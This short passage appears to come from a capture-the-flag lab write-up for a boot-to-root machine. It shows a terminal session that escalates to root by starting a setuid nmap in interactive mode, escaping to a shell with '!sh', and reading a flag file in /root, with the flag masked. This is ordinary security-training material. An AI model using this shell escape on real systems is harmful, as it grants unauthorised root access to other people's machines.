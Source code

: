 ![gtfobins](images/gtfobins.png)

```
robot@linux:/usr/local/bin$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh      
!sh
# cd /root
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
#
```

